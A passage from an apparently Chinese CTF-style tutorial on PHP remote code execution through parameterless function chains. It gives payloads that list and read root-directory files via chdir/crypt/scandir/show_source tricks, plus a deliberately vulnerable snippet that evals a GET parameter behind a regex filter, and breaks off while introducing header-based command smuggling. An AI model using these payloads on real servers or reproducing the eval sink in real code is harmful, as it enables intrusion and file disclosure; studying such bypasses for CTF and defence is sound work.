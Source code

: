 同样的：

    if(chdir(chr(ord(strrev(crypt(serialize(array())))))))print_r(scandir(getcwd()));


也可以查看根目录文件，但是也会受到权限限制，不一定成功

读根目录文件：(也是需要权限)

    if(chdir(chr(ord(strrev(crypt(serialize(array())))))))show_source(array_rand(array_flip(scandir(getcwd()))));

## 无参数命令执行（RCE）

```php
<?php
highlight_file(__FILE__);
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) { 
    eval($_GET['code']);
}
?>
```

我们可以使用无参数函数任意读文件，也可以执行命令：

既然传入的`code`值不能含有参数，那我们可不可以把参数放在别的地方，`code`用无参数函数来接收参数呢？这样就可以打破无参数函数的限制：

首先想到请求头参数`headers`，因为`headers`我们用户可控

![image-20230720205606433](daydayup.assets/image-20230720205606433.png)
